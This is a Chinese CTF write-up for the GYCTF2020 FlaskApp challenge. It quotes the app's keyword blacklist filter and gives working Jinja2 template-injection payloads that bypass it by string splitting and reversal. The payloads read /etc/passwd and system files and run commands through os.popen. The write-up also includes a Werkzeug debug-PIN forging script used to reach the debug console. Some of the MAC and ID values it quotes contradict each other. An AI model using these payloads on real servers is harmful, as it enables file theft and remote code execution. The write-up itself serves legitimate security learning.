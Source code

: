 ## [GYCTF2020]FlaskApp

[[GYCTF2020\]FlaskApp - 哔哩哔哩 (bilibili.com)](https://www.bilibili.com/read/cv19811076/)

这提示我们失败，那肯定是输入一些不是base64的编码让他运行失败看看，这里回顾的时候我才知道是因为他开了debug模式，这个模式很容易泄露一些源码，所以我们这里输入失败会看到源码才能操作。

加密肯定不会失败，我也不会加密的失败，解密很容易，输入123：


看到源码：

@app.route('/decode',methods=['POST','GET'])def decode(): 

  if request.values.get('text') :      

 text = request.values.get("text")     

  text_decode = base64.b64decode(text.encode()) 

     tmp = "结果 ： {0}".format(text_decode.decode())  
    
     if waf(tmp) :           

flash("no no no !!")        

   return redirect(url_for('decode'))     

  res =  render_template_string(tmp)

可以看出，我们的text进入后会被waf检测，然后渲染

这里的破局点在于一个是题目提示了flaskapp，一个是template，两个都是在ssti题目中常见的

联想到ssti，但是在这之前我们得搞清楚waf过滤了什么，一个方法是常用的fuzz测试，略微麻烦，另一个就是你去ssti注入试试读



当然都有弊利，这里我们直接{{7+7}}测试：


{{7*7}}则显示错误，那应该过滤了*，不管了，直接试试读waf：

{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read()}}{% endif %}{% endfor %}

这里不怎么明白的可以看一下大佬wp回顾或者了解一下：

https://blog.csdn.net/qq_64201116/article/details/125605070

这里语句都是利用父辈逐级调用可执行函数执行命令的，比如：

__class__: 用来查看变量所属的类，所以他的格式就是： 变量.__class__

__bases__查看类的基类，所以格式是 变量.__class__.__bases__

__subclasses__():查看当前类的子类组成的列表，返回基类object的子类

builtins可以查看当前导入的内建函数

_globals__: 以字典的形式返回当前位置的所有全局变量

这样除了格式，他的大概功能和调用相信你已经能了解一些了。

至于catch_warnings，他似乎是python获取警告的一个类还是什么，基本不用改变。


话说回来：这里看到waf过滤，整理了一下：

def waf(str):
    black_list = [&#34;flag&#34;,&#34;os&#34;,&#34;system&#34;,&#34;popen&#34;,&#34;import&#34;,&#34;eval&#34;,&#34;chr&#34;,&#34;request&#34;, &#34;subprocess&#34;,&#34;commands&#34;,&#34;socket&#34;,&#34;hex&#34;,&#34;base64&#34;,&#34;*&#34;,&#34;?&#34;]
    for x in black_list :
         if x in str.lower() :
         return 1

可以看到，flag，*这些都被过滤了，system也没能幸免，这导致我们常用的命令不能读取，那么如同命令绕过一样，要么用等价函数，要么用拼接，编码等其他方式绕过，上面的连接也给了很多方法，这里用了大多数wp选择的字符串拼接：

两种方式：

https://blog.csdn.net/Hopeace/article/details/120770241

{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}{% endif %}{% endfor %}

https://blog.csdn.net/qq_45557476/article/details/124011030

{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eva'+'l' in b.keys() %}
      {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("ls /").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}

可见用+号进行了拼接并回显了结果:


回显了根目录，主要是看到了flag文件：this_is_the_flag.txt

直接修改读取就行了：

{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_fl'+'ag.txt','r').read()}}{% endif %}{% endfor %}



这里我看别人wp的时候发现还可以利用切片无需拼接：

https://www.cnblogs.com/sipc-love/p/14335283.html

在最后一步，利用[::-1]，把要读的文件反写，就绕过了大多函数，也只需要执行read和open

{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}{% endif %}{% endfor %}



这里上述命令写法第二种方法的大佬给出了不同解：

https://blog.csdn.net/qq_45557476/article/details/124011030

读取debug控制板的pin码

pin码也就是flask在开启debug模式下，进行代码调试模式的进入密码，需要正确的PIN码才能进入调试模式

可见如果获得pin码，我们就能直接执行命令:

pin码脚本：

import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377871838',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '4e2d4390ee2a9b57df253521f44301973efc74e35a300a02b4e509d60989543b'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)

里面需要的参数：

1.运行app的用户名，读/etc/passwd

2.module name 一般固定为flask.app

3.getattr(app, "\_\_name\_\_", app.\_\_class\_\_.\_\_name\_\_)的结果。就是Flask

4.flask库下app.py的绝对路径，不是当前运行的app.py的路径，在debug模式下报错就能直接看见，该题为/usr/local/lib/python3.7/site-packages/flask/app.py

5.当前网络的mac地址的十进制数。通过文件/sys/class/net/eth0/address读取，eth0为当前使用的网卡，如果有多个网卡数字可能会变，这里为02:42:ae:00:c3:58，转十进制为 2485410382680

6.机器的id
对于非docker机每一个机器都会有自已唯一的id，linux的id一般存放在/etc/machine-id或/proc/sys/kernel/random/boot_i，有的系统没有这两个文件，windows的id获取跟linux也不同，假如是在win平台下读取不到上面两个文件，就去获取注册表中SOFTWARE\Microsoft\Cryptography的值。对于docker机则读取/proc/self/cgroup，序列号为1那行
1:name=systemd:/docker/210b2177689514627fab120347f7d1ea1e986bed6a9ef57504e2e3ac22e38c3c


读取/etc/passw:

{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eva'+'l' in b.keys() %}
      {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("cat /etc/passwd").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}

或者：

{{{}.__class__.__mro__[-1].__subclasses__()[102].__init__.__globals__['open']('/etc/passwd').read()}}



flask库下app.py的绝对路径


/sys/class/net/eth0/address读取

{{{}.__class__.__mro__[-1].__subclasses__()[102].__init__.__globals__['open']('/sys/class/net/eth0/address').read()}}

/etc/machine-id或/proc/sys/kernel/random/boot_i读取,这里是dockers机，就读/proc/self/cgroup

{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/proc/self/cgroup','r').read() }}{% endif %}{% endfor %}

这两个同理，值得一提的是，首先：

mac的16进制的转换，需要本地跑脚本出的结果比较正确：

 print(int('a6ac1945f1d8',16))

其次:

结果：

1:name=systemd:/kubepods.slice/kubepods-burstable.slice/kubepods-burstable-podcc096863_49c3_4caa_b633_05615b822d2b.slice/docker-b6ff692442683c70ab69d01d5310a9aba4d3014fc147c329891658c0e2048332

我们只要:

1:name=systemd:/docker-b6ff692442683c70ab69d01d5310a9aba4d3014fc147c329891658c0e2048332

然后填入脚本跑出来，在debug页面里面填pin码，然后直接控制台：

os.popen('cat /this_is_the_flag.txt').read()梭哈！